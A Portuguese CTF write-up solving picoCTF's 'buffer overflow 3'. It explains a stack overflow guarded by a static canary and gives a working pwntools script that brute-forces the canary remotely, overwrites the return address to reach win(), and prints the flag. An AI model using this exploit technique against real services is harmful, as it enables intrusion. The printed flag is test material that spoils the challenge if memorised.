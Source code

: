 # WriteUp: buffer overflow 3
## Descrição do Desafio:
**Author**: Sanjay C / Palash Oswal \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/260?category=6&page=3) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Difícil \
**Data**: 2022 \
**Descrição**:
> Do you think you can bypass the protection and get the flag?
## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Assim como os anteriores, este fornece o arquivo fonte, `vuln.c`. A análise deste arquivo nos mostra que há uma vulnerabilidade de `buffer overflow` na função `vuln()`, mas dessa vez temos um desafio no caminho, a existência de um canário de 4 caracteres.
```c
void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}
```
Também podemos identificar a existência da função `win()`, dessa vez sem parâmetros.
### 2. Exploit
O objetivo é o mesmo dos anteriors, sobrescrever o valor de retorno da função `vuln()`, mas dessa vez temos que descobrir o valor do canário para sobrescrevermos ele com o mesmo valor, e dessa forma não causar erro no programa.

Por sorte, o canário é de apenas 4 caracteres, e ele é lido de um arquivo `canary.txt`, então isso significa que ele não é aleatório.
### 3. Solução
A solução encontrada pode não ser a melhor, mas funciona. Como o canário tem apenas 4 caracteres, foi usado força bruta para descobrir o valor dele.

A lógica, é percorrer cada letra e número do alfabeto e ir sobrescrevendo apenas um caractere por vez, aí se não ocorrer erro, encontramos um caractere da canário, e caso ocorra erro continuamos a percorrer os caracteres possíveis.
### 3.1 Solução com Python
```py
from pwn import *

elf = context.binary = ELF("./vuln")

def brute_forcing():
    canary = b""
    for i in range(4):
        caracteres = string.ascii_letters + string.digits
        for c in caracteres:
            c = str.encode(c)
            try:
                p = remote(ip, porta) #Troque pelos valores fornecidos

                p.sendlineafter(b"> ", str.encode(str(64 + i + 1)))
                p.sendlineafter(b"Input> ", fit({64: canary + c}))

                resposta = p.recvline()
                if b"Stack Smashing Detected" in resposta:
                    continue
                else:
                    canary += c
                    break
            finally:
                p.close()
    return canary

payload = flat(
    "A" * 64,
    brute_forcing(),
    "A" * 16,
    elf.sym["win"],
    0x0
)

p = remote(ip, porta) #Troque pelos valores fornecidos
p.sendlineafter(b"> ", b"92")
p.sendlineafter(b"Input> ", payload)
print(p.recvall().decode())
```

### Flag
`picoCTF{Stat1C_c4n4r13s_4R3_b4D_0bf0b08e}`
## Autor
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
